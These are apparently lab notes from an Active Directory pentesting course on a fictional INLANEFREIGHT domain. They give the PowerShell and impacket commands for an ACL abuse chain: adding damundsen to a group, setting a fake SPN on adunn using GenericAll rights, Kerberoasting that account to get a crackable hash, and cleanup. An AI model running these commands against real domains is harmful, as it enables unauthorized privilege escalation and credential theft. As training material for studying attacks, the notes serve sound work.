 The next step in this hypothetical scenario is to have "damundsen" add himself to the group "Help Desk Level 1" (bloodhound showed us earlier that he has the rights to do this)  

First, create a PSCredential Object for damundsen:
```Powershell
$SecPassword = ConvertTo-SecureString 'abc123!!!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
```

Confirm damundsen is not already a part of the Help Desk Level 1 Group:
```Powershell
# This Works:
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
# This also works:
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

Add damundsen to the group:
```Powershell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

### Taking over account without chaning the password

Next, in our hypothetical scenario, damundsen, now being in the Help Desk Level 1 group has `GenericAll` rights over the "adunn" user. We could change this user's password to take over the account, but in this scenario the "adunn" user frequently logs in, so this is not an option  

Instead, since we have `GenericAll` rights over this account we can modify the accounts `servicePrincipalName` attribute to create a fake SPN that we can the Kerberoast and hash crack  

Creating the fake SPN:  
```Powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

Now we can Kerberoast the user:  
```sh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.local/wley -request-user adunn -outputfile adunn_tgs_hash
```

### Cleanup

We have 3 cleanup steps associated with the above attack:  
1. Remove the fake SPN we created for adunn
2. Remove the damudsen user from the Help Desk Level 1 group
3. Unfortunately, because we do not know damundsen's original password, we cannot change it back  

Removing the fake SPN:  
```Powershell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```
